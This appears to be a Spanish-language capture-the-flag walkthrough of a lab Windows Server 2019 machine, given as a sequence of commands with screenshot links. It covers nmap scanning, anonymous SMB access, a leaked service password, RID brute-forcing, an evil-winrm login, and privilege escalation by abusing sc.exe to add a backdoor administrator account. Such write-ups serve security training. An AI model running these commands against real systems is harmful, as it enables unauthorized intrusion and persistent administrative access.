
nmap -sn 192.168.56.0/24

nmap -sV -p- 192.168.56.111

Sacamos versión de SO
nmap -O 192.168.56.111

es un windows 10 o server 2019

smbclient -L //192.168.56.111/ -N

Podemos acceder con anonimo a la carpeta Soporte_Tecnico
smbclient //192.168.56.111/Soporte_Tecnico -N



C4m4ras2023!
BENAHOARE-THL
No tenemos autorizacion para winrm

Lanzamos script de vulnerabilidades de nmap
nmap -p- --script=vuln 192.168.56.111

Entramos a la web

en NMAP nos indicaba que el path /soporte/ era curioso


Hay otro servidor web en el puerto 8080, lo revisamos

Windows Server 2019 Standard
sacamos los usuarios del sistema con el usuario Guest (Invitado)
netexec smb 192.168.56.111 -u Guest -p ' ' --rid-brute

Antes no nos ha ido el winrm, porque el usuario es svc_camaras
evil-winrm -i 192.168.56.111 -u 'svc_camaras' -p 'C4m4ras2023!'

Somos usuario normal

Sacamos flag de usuario

Sacamos mas info
impacket-DumpNTLMInfo 192.168.56.111

Añadimos un nuevo usuario al sistema
sc.exe config GuancheVMS binPath= "cmd.exe /c net user hacker Password123! /add"

Lo metemos en el grupo de administradores
sc.exe config GuancheVMS binPath= "cmd.exe /c net localgroup Administrators hacker /add"

Permitimos que pueda acceder remotamente por winrm
cmd /c 'sc config GuancheVMS binPath= "cmd.exe /c net localgroup \"Remote Management Users\" hacker /add"'

evil-winrm -i 192.168.56.111 -u 'hacker' -p ‘Password123!’

Obtenemos el flag root

{kind=link}